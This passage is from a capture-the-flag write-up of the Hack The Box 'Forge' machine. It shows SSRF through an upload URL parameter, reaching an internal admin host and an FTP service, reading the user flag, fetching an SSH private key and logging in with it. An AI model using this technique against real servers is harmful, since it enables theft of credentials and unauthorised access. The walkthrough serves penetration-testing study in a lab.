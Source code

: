 Next, we will modify the url to become http://admin.Forge.htb/announcements```, and curling the url that was given to us, we are able to obtain the credentials for our FTP server. We also realized that we can upload images to the endpoint by passing a url with ```/uploads?u=<url>```. This might contain open redirect vulnerabilities if the url used in the parameters are not properly sanitized.

![FTP Credentials](https://github.com/joelczk/writeups/blob/main/HTB/Images/forge/credentials.PNG)
  
Now, we will change the input url to http://admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@localHost and curl the url obtained. We would realize that we would obtain a directory listing of the current directory in the FTP server.
  
```
┌──(kali㉿kali)-[~]
└─$ curl http://forge.htb/uploads/TMHWQcZBLTlN0DPvha4q
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 26 00:57 user.txt
```

### Obtaining user flag

All that is left for us to do is to modify the input url to http://admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@localHost/user.txt and curl the obtained url to get the user flag.

```
┌──(kali㉿kali)-[~]
└─$ curl http://forge.htb/uploads/jSUOzXI4ZbmjMSoqJvXs
<Redacted user flag>
```
  
### Obtaining private key for SSH

To obtain the root flag, we need to be able to first SSH into the server. To do that, we need to first obtain the private key that is used for SSH from the FTP server. This can be obtained by modifying the input url to http://admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@localHost/.ssh/id_rsa. Curling the url that is given to us would then give us the private key that is needed for SSH.

We would then save the private key and SSH into the server using the username, ```user```. 

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -i id_rsa user@10.10.11.111

Last login: Fri Aug 20 01:32:18 2021 from 10.10.14.6
user@forge:~$ 
```
    